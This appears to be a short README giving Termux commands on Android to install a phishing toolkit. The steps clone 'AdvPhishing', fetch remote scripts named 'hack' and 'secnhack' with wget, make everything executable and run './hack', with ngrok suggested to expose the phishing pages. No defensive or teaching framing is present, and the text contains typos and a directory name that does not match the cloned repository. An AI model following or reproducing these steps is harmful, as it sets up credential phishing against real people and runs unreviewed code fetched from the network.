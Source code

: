# Follow This
* Vist Ngrok = [Here](ngrok.com)
* Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install git
pkg install python
git clone https://github.com/Ignitetch/AdvPhishing
git clone https://github.com/T-Dynamos/Maths_Bot m_bot
git clone https://github.com/Cabbagec/termux-ohmyzsh
wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
cd Advphishing
wget https://raw.githubusercontent.com/T-Dynamos/advphishing/main/secnhack
bash Android-Setup.sh
```

* Second Time 

```

cd termux-ohmyzsh
bash install.sh
cd
chmod +x *
clear
echo Exectue = ./hack
```

